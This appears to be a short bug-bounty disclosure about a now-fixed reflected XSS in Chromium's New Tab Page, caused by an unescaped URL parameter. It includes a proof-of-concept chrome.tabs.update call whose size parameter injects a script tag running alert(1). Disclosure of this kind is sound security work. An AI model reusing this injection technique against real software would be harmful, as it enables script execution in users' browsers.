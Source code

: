 ```yaml
---
title: XSS in native browser UI (Awarded $500)
---
```


Chromium NTP (New Tab Page) reflected content from a url parameter into the DOM, This was fixed by replacing `i18nRaw` with `i18n` that performs html escaping.
Impact is reduced because it's on chrome-untrusted and can only be navigated to directly or from a browser extension.

UPDATE: As part of <https://bugs.chromium.org/p/chromium/issues/detail?id=1269151> chrome-untrusted URLs in chrome.window and chrome.tabs are now disallowed.

```js
chrome.tabs.update(
  ID,
  {
    url: 'chrome-untrusted://new-tab-page/custom_background_image?url=https://a.a&size=%3C/style%3E%3Cscript%3Ealert(1)%3C/script%3E'
  },
  console.log
);
```

This was fixed in <https://issues.chromium.org/issues/40057777>
